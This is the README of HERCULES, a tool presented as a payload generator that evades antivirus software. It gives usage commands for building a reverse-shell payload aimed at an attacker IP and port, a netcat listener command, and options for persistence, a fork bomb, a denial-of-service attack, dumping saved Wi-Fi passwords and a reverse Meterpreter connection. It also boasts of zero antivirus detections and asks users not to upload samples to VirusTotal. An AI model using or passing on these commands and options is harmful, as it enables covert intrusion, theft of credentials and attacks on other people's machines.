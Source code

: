 # HERCULES [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/EgeBalci/HERCULES/master/LICENSE)
HERCULES is a special payload generator that can bypass all antivirus software.

Use it with netcat...

Example : nc -l -p 1234


# USAGE


                  __  ____________  ________  ____    ___________
                 / / / / ____/ __ \/ ____/ / / / /   / ____/ ___/
                / /_/ / __/ / /_/ / /   / / / / /   / __/  \__ \ 
               / __  / /___/ _, _/ /___/ /_/ / /___/ /___ ___/ / 
              /_/ /_/_____/_/ |_|\____/\____/_____/_____//____/  
                                                   


Usage : ./HERCULES (Ip) (Port) (Options)

Example : ./HERCULES 192.168.2.10 4444 -p windows -a x86 -l dynamic

Example Video : https://youtu.be/vYnaZpWxwxY

Options : 

      -p                 Payload to use. ( Windows / Linux )

      -a                 The architecture to use. ( x86, x64 )
      
      -l                 Specify linking type for compiler. ( static, dynamic )

      --persistence      Enable outo persistence option for continious acces.

      --embed="file.exe" Embed the selected payload with selected exe file.




# PAYLOAD OPTIONS

     ~PERSSISTENCE                     Installs a persistence module

     ~DISTRACT                         Executes a fork bomb bat file for distraction   

     ~PLEASE  "Command"                Asks users comfirmation for higher privilidge operations

     ~DOS -A "www.targetsite.com"      Starts a denial of service atack

     ~WIFI-LIST 					   Dumps all wifi history data with passwords

     ~METERPRETER -A "127.0.0.1:8888"  Creates a reverse https meterpreter connection to metasploit

# NOTE !

- Dynamic linking makes payload size smaller !
- Using persistence may atract anti virus softwares !
- Please don't disribute any samples to Virus Total !

# AV AWARENESS

File Name: Payload.exe
File Size: 7.57 MB
Scan Date: 11:06:04 | 06/08/2016
Detected by: 0/35

MD5: 752e10459e0624beb6747ae85f8f9261
SHA256: 491bab16a4701102f201800322cf06bb95229dec012b5703e33be77d74b672a6
Verified By NoDistribute: http://NoDistribute.com/result/ZWHKvaAJcCpnOGbgNq

- A-Squared:  Clean
- Ad-Aware:  Clean
- Avast:  Clean
- AVG Free:  Clean
- Avira:  Clean
- BitDefender:  Clean
- BullGuard:  Clean
- Clam Antivirus:  Clean
- Comodo Internet Security:  Clean
- Dr.Web:  Clean
- ESET NOD32:  Clean
- eTrust-Vet:  Clean
- F-PROT Antivirus:  Clean
- F-Secure Internet Security:  Clean
- FortiClient:  Clean
- G Data:  Clean
- IKARUS Security:  Clean
- K7 Ultimate:  Clean
- Kaspersky Antivirus:  Clean
- McAfee:  Clean
- MS Security Essentials:  Clean
- NANO Antivirus:  Clean
- Norman:  Clean
- Norton Antivirus:  Clean
- Panda CommandLine:  Clean
- Panda Security:  Clean
- Quick Heal Antivirus:  Clean
- Solo Antivirus:  Clean
- Sophos:  Clean
- SUPERAntiSpyware:  Clean
-Trend Micro Internet Security:  Clean
- Twister Antivirus:  Clean
- VBA32 Antivirus:  Clean
- VIPRE:  Clean
- Zoner AntiVirus:  Clean
				

# DONATIONS

- http://patreon.com/user?u=3556027

